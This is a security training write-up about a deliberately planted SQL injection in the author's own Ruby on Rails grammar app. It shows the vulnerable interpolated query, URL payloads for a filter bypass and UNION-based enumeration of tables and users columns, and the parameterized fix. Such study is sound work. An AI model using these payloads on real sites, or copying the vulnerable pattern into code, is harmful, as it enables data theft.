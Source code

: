 # SQL Injection Writeup: German Grammar App (Ruby on Rails)

**App Framework:** Ruby on Rails  
**Vulnerability:** SQL Injection in custom controller logic for filtering nouns by gender
**Status:** Patched  
**Purpose:** Hands-on AppSec practice and demonstration of secure coding principles

---

## 🧠 Overview

While developing a grammar-learning platform using Ruby on Rails, I created a page that displays German nouns and allows users to filter them by grammatical gender (masculine, feminine, or neuter) using a dropdown menu. For the purpose of understanding SQL injection vulnerabilities in a realistic setting, I temporarily implemented the filtering logic using raw SQL with direct string interpolation.

This writeup documents the vulnerable code, the URL-based injection used to exploit it, and the secure fix using ActiveRecord’s query interface.


---

## 🔍 Vulnerable Code (Before)

In this early version, I bypassed ActiveRecord’s protections and manually built a query:

```ruby
# 🚨 Vulnerable filter method (simulating raw SQL injection)
class NounViewerController < ApplicationController
  def index
    @gender_options = %w[masculine feminine neuter]
    @selected_gender = params[:gender]

    @nouns = Noun.find_by_sql(
      "SELECT GENDER, WORD, DEFINITION FROM nouns WHERE gender = '#{@selected_gender}'"
    )
  end
end
```

❗️This uses string interpolation to insert untrusted user input (params[:gender]) directly into a raw SQL query, bypassing ActiveRecord’s sanitization and creating a SQL injection risk.

## Exploitation  
Payload used (URL input):

```sql
/noun_viewer?gender='+OR+1=1--
```

This corresponds to the SQL payload:
```sql
gender = '' OR 1=1--
```
By injecting into the gender parameter via the URL, I was able to bypass the filter and return all nouns, regardless of gender. This confirmed that the input was being directly interpolated into a raw SQL query.


## How I tested it:

Injected the following payload into the `gender` parameter via the URL:

```sql
/noun_viewer?gender='+OR+1=1--
```

## 🔎 Result

After injecting the payload, the application no longer filtered nouns by the selected gender. Instead, it returned **all nouns from the database**, regardless of gender category. This confirmed that the SQL condition was bypassed and that user input was being directly executed as part of the query.


## Screenshot:

![SQLi Result](./screenshots/sqli-noun-gender-bypass.png)


## 🧨 Escalation: Enumerating the Database

After confirming the vulnerability through basic SQL injection, I escalated the attack to enumerate the database structure and extract sensitive data — simulating a real-world data breach scenario.

---

### 1. 🔎 Determining the Number of Columns

To craft a valid `UNION SELECT`, I needed to match the number of columns in the original query. I injected:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+NULL,NULL,NULL--
```

Result: The page loaded without error, confirming the query had 3 columns.


### 2. 🧪 Identifying Data Types for UNION Injection

Next, I determined which columns could accept string values (to inject test strings or payloads). I used:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+'test',NULL,NULL--
```

Result: The string "test" appeared on the page — confirming that the first column accepts text. This allowed me to use it to display exfiltrated values.

### 3. 🏷️ Fingerprinting the Database

To identify the database engine, I injected a version function:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+version(),NULL,NULL--
```

Result: The output showed a version string indicating that the backend was PostGres.

### 4. 🗂️ Enumerating Table Names

I queried the information_schema.tables table to enumerate available tables:

```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+table_name,NULL,NULL+FROM+information_schema.tables+ORDER+BY+1+DESC--
```

![SQLi Result](./screenshots/sqli-show-table-names.png)


Result: The app returned a list of tables, including:

- views

- users

- tables

- ...


### 5. 📦 Enumerating Columns in the users Table

Next, I extracted the column names from the users table to identify useful fields:
```sql
/noun_viewer?gender='+OR+1=1+UNION+SELECT+column_name,NULL,NULL+FROM+information_schema.columns+WHERE+ table_name='users'+ORDER+BY+1--
```

![SQLi Result](./screenshots/sqli-show-table-column-names.png)

Result: I discovered the following fields:

- email

- encrypted_password

⚠️ Note: All testing was performed in a local development environment on a self-built app. No real user data was accessed or exposed.


## Summary of Findings

- The application was vulnerable to classic UNION-based SQL injection
- I used controlled payloads to safely enumerate:
  - Column count and types
  - DBMS fingerprint
  - Table and column names
- This vulnerability could be exploited to extract sensitive user data such as usernames and password hashes





## 🛡️ Fixed Code (After)

The fix involved replacing raw SQL with ActiveRecord’s built-in .where() method, which uses parameterized queries. This safely escapes user input and prevents injection:
✅ Secure version using ActiveRecord query interface:
```ruby
class NounViewerController < ApplicationController
  def index
    @gender_options = %w[masculine feminine neuter]
    @selected_gender = params[:gender]
    @nouns = if @selected_gender.present?
              Noun.where(gender: @selected_gender)
             else
               []
             end
  end
end
```

This ensures:

User input is safely escaped

SQL injection attempts are neutralized

## Test Results After Fix

![SQLi Result](./screenshots/sqli-fixed-code-response.png)


Retested the same payload.

Query failed as expected.

No unexpected records returned.



## Lessons Learned

**Rails ActiveRecord provides excellent protection by default** — bypassing it opens you up to unnecessary risk.

**Raw SQL should only be used with parameter placeholders (?) or sanitized bindings.**

**Demonstrating vulnerabilities safely builds intuition and improves secure coding instincts.**



*This writeup is part of my ongoing security training. Full application source is private, but selected code snippets and security walkthroughs are available here for demonstration purposes.*
